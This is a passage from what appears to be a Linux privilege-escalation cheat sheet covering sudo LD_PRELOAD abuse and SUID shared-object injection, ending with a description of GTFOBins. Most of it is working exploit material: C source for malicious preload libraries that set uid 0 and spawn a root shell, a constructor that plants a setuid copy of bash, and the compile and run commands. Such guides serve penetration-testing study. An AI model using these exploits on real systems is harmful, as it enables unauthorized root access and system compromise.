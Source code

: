 To avoid this mechanism being used as an attack vector for suid/sgid executable binaries, the loader ignores LD_PRELOAD if ruid != euid. For such binaries, only libraries in standard paths that are also suid/sgid will be preloaded.

If you find inside the output of sudo -l the sentence: env_keep+=LD_PRELOAD and you can call some command with sudo, you can escalate privileges.

Defaults        env_keep += LD_PRELOAD
Save as /tmp/pe.c

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
​
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
Then compile it using:

cd /tmp
gcc -fPIC -shared -o pe.so pe.c -nostartfiles
Finally, escalate privileges running

sudo LD_PRELOAD=pe.so <COMMAND> #Use any command you can run with sudo
SUID Binary – so injection
If you find some weird binary with SUID permissions, you could check if all the .so files are loaded correctly. In order to do so you can execute:

strace <SUID-BINARY> 2>&1 | grep -i -E "open|access|no such file"
For example, if you find something like: pen(“/home/user/.config/libcalc.so”, O_RDONLY) = -1 ENOENT (No such file or directory) you can exploit it.

Create the file /home/user/.config/libcalc.c with the code:

#include <stdio.h>
#include <stdlib.h>
​
static void inject() __attribute__((constructor));
​
void inject(){
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
Compile it using:

gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
And execute the binary.

GTFOBins
​GTFOBins is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.

The project collects legitimate functions of Unix binaries that can be abused to break out restricted shells, escalate or maintain elevated privileges, transfer files, spawn bind and reverse shells, and facilitate the other post-exploitation tasks.
